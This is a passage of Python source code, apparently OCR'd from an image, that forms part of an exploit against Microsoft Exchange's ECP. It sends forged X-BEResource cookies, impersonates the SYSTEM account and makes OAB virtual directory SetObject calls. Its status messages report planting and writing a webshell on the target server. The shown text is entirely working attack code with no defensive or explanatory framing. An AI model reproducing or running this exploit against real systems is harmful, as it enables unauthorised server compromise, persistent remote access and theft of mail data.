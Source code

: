 ```
        'Cookie': 'X-BEResource=a]@{}:444{}?{}#~1941962753;ASP.NET_SessionId={};msExchEcpCanary={}'.format(computer_name, vuln_url, qs, session_id, canary),
        'Content-Type': 'application/json',
        'msExchLogonMailbox': 'S-1-5-20',
    }
    url = "https://{}/ecp/PeiQi.js".format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url, headers=headers, data=payload, verify=False, allow_redirects=False)
    if response.status_code == 200:
        print("\033[32m[o] 通过OAB设置Webshell成功\033[0m")
    
    vuln_url = "/ecp/DDI/DDIService.svc/SetObject"
    qs = urlencode({
        'schema': 'ResetOABVirtualDirectory',
        'msExchEcpCanary': canary
    })
    payload = json.dumps({
        'identity': {
            '__type': 'Identity:ECP',
            'DisplayName': identity['DisplayName'],
            'RawIdentity': identity['RawIdentity']
        },
        'properties': {
            'Parameters': {
                '__type': 'JsonDictionaryOfanyType:#Microsoft.Exchange.Management.ControlPanel',
                'FilePathName': FILE_PATH
            }
        }
    })
    headers = {
        'X-Clientapplication': 'Outlook/15.0.4815.1002',
        'X-Requestid': 'x',
        'X-Requesttype': 'Connect',
        'Cookie': 'X-BEResource=a]@{}:444{}?{}#~1941962753;ASP.NET_SessionId={};msExchEcpCanary={}'.format(computer_name, vuln_url, qs, session_id, canary),
        'Content-Type': 'application/json',
        'msExchLogonMailbox': 'S-1-5-20',
    }
    url = "https://{}/ecp/PeiQi.js".format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url, headers=headers, data=payload, verify=False, allow_redirects=False)
    if response.status_code == 200:
        print("\033[32m[o] 正在尝试写入Webshell\033[0m")
        
    vuln_url = "/ecp/DDI/DDIService.svc/SetObject"    
    qs = urlencode({
        'schema': 'OABVirtualDirectory',
        'msExchEcpCanary': canary
    })
    payload = json.dumps({
        'identity': {
            '__type': 'Identity:ECP',
            'DisplayName': identity['DisplayName'],
            'RawIdentity': identity['RawIdentity']
        },
        'properties': {
            'Parameters': {
                '__type': 'JsonDictionaryOfanyType:#Microsoft.Exchange.Management.ControlPanel',
                'ExternalUrl': ''
            }
        }
```